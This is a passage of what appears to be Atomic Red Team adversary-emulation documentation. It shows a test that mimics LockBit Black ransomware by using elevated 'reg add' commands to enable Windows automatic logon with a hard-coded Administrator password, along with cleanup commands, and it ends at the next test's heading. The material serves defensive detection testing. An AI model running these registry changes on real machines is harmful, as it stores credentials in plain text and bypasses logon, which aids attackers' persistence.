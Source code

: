 



<br/>
<br/>

## Atomic Test #33 - LockBit Black - Use Registry Editor to turn on automatic logon -cmd
LockBit Black - Use Registry Editor to turn on automatic logon

**Supported Platforms:** Windows


**auto_generated_guid:** 9719d0e1-4fe0-4b2e-9a72-7ad3ee8ddc70






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /t REG_DWORD /d 1 /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /t REG_SZ /d Administrator /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /t REG_SZ /d contoso.com /f
reg add "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /t REG_SZ /d password1 /f
```

#### Cleanup Commands:
```cmd
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName /f >nul 2>&1
reg delete "HKLM\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #34 - LockBit Black - Disable Privacy Settings Experience Using Registry -Powershell
LockBit Black - Disable Privacy Settings Experience Using Registry

**Supported Platforms:** Windows
